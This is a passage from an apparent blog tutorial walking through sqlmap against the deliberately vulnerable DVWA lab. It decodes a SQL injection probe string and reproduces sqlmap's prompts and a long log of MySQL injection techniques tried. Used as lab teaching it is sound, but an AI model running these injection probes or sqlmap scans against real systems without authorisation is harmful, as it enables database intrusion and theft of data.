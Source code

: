 The first two are the stabilty test. The third is the dynamic test. I'm
assuming it's looking for a different response from the app - in this case the
app doesn't respond differently if different user IDs are supplied. The fourth,
and final test, is the magic. The valid value (Shamus) has been padded with
`%28%29%5D%5D%27%2C%5D%27.%28`. Straight out of the
[textbook](http://www.amazon.co.uk/dp/1597499633). A quick trip through decoder
tells use that the string is `Shamus()]]',]'.(`.

![Another SQL Injection error](/images/dvwa_second_error.png "Remember, hacking is more than just a crime. It's a survival trait.")

Sqlmap has used the magic of heuristics to determine that we're running MySQL.
A quick look at the code shows that this is produced by `checkSqlInjection`,
which uses `getSortedInjectionTests`, which uses `conf.tests`, which is an
empty `AttribDict`. So we're none the wiser. Onwards!

    heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do
    you want to skip test payloads specific for other DBMSes? [Y/n] y
    do you want to include all tests for 'MySQL' extending provided level (1) and
    risk (1)? [Y/n]

Level 1 and risk 1 sounds about right, so we'll just hit go again. You will
want to page down a few times.

    [22:46:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [22:46:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
    [22:46:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
    [22:46:55] [INFO] testing 'MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)'
    [22:46:56] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET - original value)'
    [22:46:56] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT - original value)'
    [22:46:56] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int - original value)'
    [22:46:56] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace (original value)'
    [22:46:56] [INFO] testing 'MySQL < 5.0 boolean-based blind - Parameter replace (original value)'
    [22:46:56] [INFO] testing 'MySQL >= 5.0 boolean-based blind - GROUP BY and ORDER BY clauses'
    [22:46:56] [INFO] testing 'MySQL < 5.0 boolean-based blind - GROUP BY and ORDER BY clauses'
    [22:46:56] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
    [22:46:56] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE or HAVING clause (EXTRACTVALUE)'
    [22:46:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE or HAVING clause (UPDATEXML)'
    [22:46:57] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE or HAVING clause'
    [22:46:57] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE or HAVING clause'
    [22:46:57] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE or HAVING clause (EXTRACTVALUE)'
    [22:46:57] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE or HAVING clause (UPDATEXML)'
    [22:46:57] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause'
    [22:46:58] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause'
    [22:46:58] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
    [22:46:58] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
    [22:46:58] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
    [22:46:58] [INFO] testing 'MySQL >= 5.0 error-based - GROUP BY and ORDER BY clauses'
    [22:46:58] [INFO] testing 'MySQL >= 5.1 error-based - GROUP BY and ORDER BY clauses (EXTRACTVALUE)'
    [22:46:58] [INFO] testing 'MySQL >= 5.1 error-based - GROUP BY and ORDER BY clauses (UPDATEXML)'
    [22:46:58] [INFO] testing 'MySQL inline queries'
    [22:46:58] [INFO] testing 'MySQL > 5.0.11 stacked queries'
